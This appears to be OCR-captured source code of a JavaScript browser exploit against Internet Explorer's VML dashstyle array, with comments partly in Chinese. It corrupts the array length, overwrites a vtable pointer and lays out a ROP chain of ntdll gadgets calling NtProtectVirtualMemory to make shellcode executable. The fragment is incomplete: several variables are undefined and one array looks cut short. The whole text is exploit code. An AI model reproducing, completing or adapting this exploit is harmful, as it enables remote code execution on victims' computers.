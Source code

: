 			function get_ropchain(shelladdr){
				var arr = [
					ntdllbase + Number(0x1) ,
					ntdllbase + Number(0x1) ,
					ntdllbase + Number(0x47733),        //# XCHG EAX,ESP # POP ESI # POP EDI # LEA EAX,DWORD PTR DS:[EDX-1] # POP EBX # RETN 
					0x200,// NtProtectVirtualMemory的第三个参数所指的值
					];
				return arr;
			}
			
			function d2u(dword) {
				var uni = String.fromCharCode(dword & 0xFFFF);
				uni += String.fromCharCode(dword>>16);
				return uni;
			}
			
			function tab2uni(tab) {
				var uni = ""
				for(var i=0;i<tab.length;i++) {
					uni += d2u(tab[i]);
				}
				return uni;
			}

			function exploit(){
				var vml1  = document.getElementById("vml1")

				for(var i = 0; i < 0x400; i++){
					a[i] = document.getElementById("rect" + i.toString())._anchorRect;
					if (i == 0x300){
						vml1.dashstyle = "1 2 3 4";
					}
				}

				var length_orig = vml1.dashstyle.array.length;
				vml1.dashstyle.array.length = 0 - 1; 
				alert(rop_addr);
				vml1.dashstyle.array.item(6) = rop_addr; //覆盖到虚表
				
				vml1.dashstyle.array.item( 9) = ntdllbase+Number(0x47643);  //pop edi # ret
				vml1.dashstyle.array.item(10) = ntdllbase+Number(0x45f18);  //NtProtectVirtualMemory
				vml1.dashstyle.array.item(11) = ntdllbase+Number(0xc71ef);  //pop esi # ret
				vml1.dashstyle.array.item(12) = shellcodeaddr;
				vml1.dashstyle.array.item(13) = ntdllbase+Number(0xcb72a);  //pop ebp # ret
				vml1.dashstyle.array.item(14) = 0-1;                        // -1
				vml1.dashstyle.array.item(15) = ntdllbase+Number(0x348b9);  //pop ebx # ret
				vml1.dashstyle.array.item(16) = rop_addr+12;                //ptr RegionSize
				vml1.dashstyle.array.item(17) = ntdllbase+Number(0x9a30c);  //pop eax # ret
				vml1.dashstyle.array.item(18) = 0-96601473;
				vml1.dashstyle.array.item(19) = ntdllbase+Number(0x3ab39);  //add eax,5C205C1h # ret 
				vml1.dashstyle.array.item(20) = ntdllbase+Number(0x36d70);  //xchg eax,edx # ret
				vml1.dashstyle.array.item(21) = ntdllbase+Number(0xcd241);  //pop ecx # ret
				vml1.dashstyle.array.item(22) = rop_addr;                   //ptr to OldAccessProtection
				vml1.dashstyle.array.item(23) = ntdllbase+Number(0x227c4);  //pushad # ret
				vml1.dashstyle.array.item(24) = shellcodeaddr;
				vml1.dashstyle.array.item(25) = Number(0x10400);
				vml1.dashstyle.array.item(26) = shellcodeaddr;
				for (var i=0; i<0x400; i++)
				{
					delete a[i];
					CollectGarbage();
				}
				alert("done");
			}
